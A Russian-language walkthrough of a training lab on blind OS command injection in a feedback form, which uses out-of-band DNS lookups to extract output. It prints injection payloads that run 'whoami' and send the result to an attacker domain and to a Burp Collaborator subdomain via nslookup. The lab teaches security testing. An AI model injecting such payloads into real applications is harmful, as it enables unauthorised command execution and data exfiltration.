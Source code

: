 ![image](https://github.com/user-attachments/assets/a00a6805-16f4-4753-8da1-2b99ba1fcc57)Внеполосный канал обеспечивает простой способ извлечения выходных данных из внедренных команд:

& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
Это вызывает DNS-поиск домена злоумышленника, содержащего результат команды whoami:

wwwuser.kgji2ohoyw.web-attacker.com

В этой лабораторной работе обнаружена уязвимость слепого внедрения команд ОС в функцию обратной связи.

Приложение выполняет команду оболочки, содержащую предоставленные пользователем данные. Команда выполняется асинхронно и не влияет на ответ приложения. Невозможно перенаправить вывод в место, к которому вы можете получить доступ. Однако вы можете инициировать внеполосные взаимодействия с внешним доменом.

Чтобы решить лабораторную работу, выполните whoamiкоманду и извлеките вывод через DNS-запрос в Burp Collaborator. Вам нужно будет ввести имя текущего пользователя для завершения лабораторной работы.

1. Нас встречает сайт с продуктами, и справа сверху есть кнопка "Отправить отзыв" переходим, включаем Burp, заполняем случайными значениями, и отправляем отзыв:

![image](https://github.com/user-attachments/assets/260fbb4d-077d-4953-9adb-458bc009c82e)

2. Перекидываем в Repeater POST запрос к /feedback/submit, и вставляем в параметр email: ||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN|| :

![image](https://github.com/user-attachments/assets/d169e21c-2e16-472a-896e-1b8606aa04d9)

3. В коллабораторе появится придут 2 DNS запроса в которых перед ссылкой на коллаборатор находится имя пользователя:

![image](https://github.com/user-attachments/assets/f3ecde18-d795-49b9-aedd-6035ec049f9c)
